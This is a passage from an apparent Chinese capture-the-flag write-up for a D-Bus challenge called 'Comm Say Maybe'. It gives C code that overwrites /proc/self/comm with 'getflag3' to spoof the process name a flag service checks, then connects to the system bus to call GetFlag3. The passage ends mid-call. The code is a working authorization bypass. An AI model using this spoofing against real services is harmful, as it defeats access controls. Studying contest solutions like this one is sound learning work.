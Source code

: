 ## 不太分布式的软总线 - Comm Say Maybe

直接把 `getflag3` 写入到 `/proc/self/comm` 即可。代码如下：

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag3"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
  GError *error = NULL;
  GDBusConnection *connection;
  GVariant *result;

  int commfd=open("/proc/self/comm",O_RDWR);
  if(commfd<0){
    perror("open comm");
    exit(-1);
  }
  char* message="getflag3";
  ssize_t length=8;
  ssize_t written=0;
  while(written<length){
    ssize_t len = write(commfd,message+written,length-written);
    if(len<0){
      perror("write");
      exit(-1);
    }
    written+=len;
  }
  ftruncate(commfd,8);
  close(commfd);

  char path[1024];
  g_snprintf(path, sizeof(path), "/proc/self/comm");
  gchar *comm;
  gsize len;
  if (g_file_get_contents(path, &comm, &len, &error)) {
    g_print(comm);
  } else {
    g_printerr("Failed to read comm: %s\n", error->message);
    g_error_free(error);
    return EXIT_FAILURE;
  }

  connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
  if (!connection) {
    g_printerr("Failed to connect to the system bus: %s\n", error->message);
    g_error_free(error);
    return EXIT_FAILURE;
  }

  // 发送请求
  result = g_dbus_connection_call_sync(connection,
                                       DEST,
```